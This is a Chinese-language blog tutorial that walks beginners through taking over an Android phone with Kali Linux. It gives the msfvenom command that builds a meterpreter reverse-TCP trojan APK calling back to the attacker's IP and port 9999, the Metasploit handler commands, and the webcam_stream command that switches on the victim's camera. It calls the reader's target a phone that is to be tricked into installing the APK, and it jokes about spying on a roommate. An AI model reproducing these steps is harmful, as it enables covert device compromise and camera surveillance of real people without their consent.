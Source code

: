 ```yaml
---
layout:     post
title:      kali渗透手机
subtitle:   长夜漫漫 还是醉些的好
date:       2019-05-18
author:     Nikola
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - kali
    - 渗透
    
    
---
```


**写个小白教程**

**原理：**

利用Metasploit生成xxx.apk的木马文件，让目标手机下载这个木马程序，然后这个木马就会反弹连接你的kali,你就可以控制手机了。

**开始：**



便与测试，我这里kali和手机是同一个网段，就是连得同一个wifi。

1.kali的ip: 192.168.31.65，

2.一会我会让目标的手机反连我kali的9999端口号，记住端口号不能冲突。

3.打开终端输入

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.31.65 LPORT=9999 R > /root/qiaozhu.apk
```

![img](https://i.loli.net/2018/12/27/5c24a4cf595e8.png)

然后ls查看，生成如下文件

![img](https://i.loli.net/2018/12/27/5c24a4cf07164.png)

打开metasploit



![img](https://i.loli.net/2018/12/27/5c24a4d03421a.png)

进入msf之后，首先使用search命令找到exploit/multi/handler模块，如下





![img](https://i.loli.net/2018/12/27/5c24a4cf4bd5d.png)

```
use exploit/multi/handler //加载模块
show options //加载完模块，看看有哪些选项
```

![img](https://i.loli.net/2018/12/27/5c24a4d034c99.png)

选择android/meterpreter/reverse_tcp这个载荷选项

```
set payload android/meterpreter/reverse_tcp
```

set LHOST 192.168.31.65 //设置我的ip

set LPORT 9999 //设置我的端口9999

![img](https://i.loli.net/2018/12/27/5c24a4d013160.png)

然后就开始侦听了，一旦我这边手机安装qiaozhu.apk运行之后，我kali这边就会

![img](https://i.loli.net/2018/12/27/5c24a4d018726.png)

看见没有，激动不激动，出现meterpreter 说明成功了
输入webcam_stream ，开启摄像头

![img](https://i.loli.net/2018/12/27/5c24a4d1445d4.png)

看到舍友的衣架子了。。拜拜

![img](http://blog3-1258612035.cos.ap-shanghai.myqcloud.com/20190311151109/20190311035128908.png)